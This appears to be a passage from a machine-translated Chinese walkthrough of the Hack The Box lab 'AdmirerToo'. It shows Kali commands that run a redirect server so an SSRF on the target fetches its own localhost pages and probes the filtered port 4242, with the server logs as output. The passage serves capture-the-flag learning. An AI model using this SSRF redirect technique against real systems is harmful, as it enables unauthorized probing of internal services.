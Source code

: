 管理员页面显示来自漏洞的响应

如果你在输出上做 html2text，你会看到它是来自我们在开始看到的最初的仰慕者-画廊. htb 站点的 index.php 页面:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat html | html2text

Admirer
****** Admirer of theworld. ******
Welcome to my image gallery.
Are you an admirer too?
 [img/highway.jpg]
******_Biodiesel_squid_******
Have_you_ever_seen_anything_like_it?
[img/portfolio_item_4.png]
******_raclette_taxidermy_******
Impressive,_isn't_it?
<SNIP>
```

查看我们在 Kali 中运行的重定向器，我们看到我们成功了:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
10.10.11.137 - - [28/Feb/2022 22:53:51] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [28/Feb/2022 22:53:52] "GET / HTTP/1.0" 301 -
```

这证实了我们将请求重定向回机器上的端口 80，并且我们可以使用 SSRF 来进一步枚举它。如果你需要一本关于 SSRF 的入门书，那么 PortSwigger 有一篇好文章[在这里](https://portswigger.net/web-security/ssrf)。

# 扫描过滤端口

如果我们回顾一下开始时的 Nmap 扫描，会发现有几个经过过滤的端口，这是我们感兴趣的一个:

```
4242/tcp  filtered vrml-multi-use
```

利用我们使用 SSRF 攻击能力，我们可以从机器内部探测端口，我们只需要改变我们的重定向器:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1:4242
serving at port 80
```

现在，当我们收到 Kali 上的 box 请求时，我们会将其重定向回端口 4242。我们需要执行与之前相同的过程来执行 SSRF 攻击。回到网络浏览器，进入登录页面。准备好拦截打嗝后，点击输入按钮:

![](img/822527c1c57f5e7b219b470fa1e9d946.png)
